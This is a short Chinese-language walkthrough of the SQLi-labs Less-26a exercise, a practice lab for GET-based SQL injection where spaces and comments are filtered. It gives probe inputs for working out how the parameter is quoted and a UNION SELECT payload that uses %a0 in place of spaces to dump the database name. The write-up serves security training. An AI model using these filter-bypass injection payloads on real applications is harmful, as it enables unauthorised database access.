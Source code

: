 # Less-26a **GET Trick with comments**  
TAG：GET型注入、空格与注释符过滤  
## 漏洞利用  
此less为less26的变种，它关闭了报错信息的输出，在确定参数包裹方式上存在一定的障碍  
![less26a_1](images\less26a_1.png)  
  
这里简单讲解一种判断方法：  
在荷载参数中分别输入```1```,```1"```,```1'```,查看回显  
payload:```?id=1```  
![less26a_2](images\less26a_2.png)  
payload:```?id=1"```  
![less26a_3](images\less26a_3.png)  
payload:```?id=1'```  
![less26a_4](images\less26a_4.png)  
1和1"正常回显，1'无回显，可以判断为字符型  
  
现在判断一下存不存在小括号包裹  
payload:```1')||'1'=('1```
![less26a_5](images\less26a_5.png)  
正常回显说明语句含有小括号  
  
恶意语句的构造方式与less26类似  
Payload:```?id=0')%a0union%a0select%a02,database(),4%a0||%a0('1')=('1```
![less26a_6](images\less26a_6.png)  

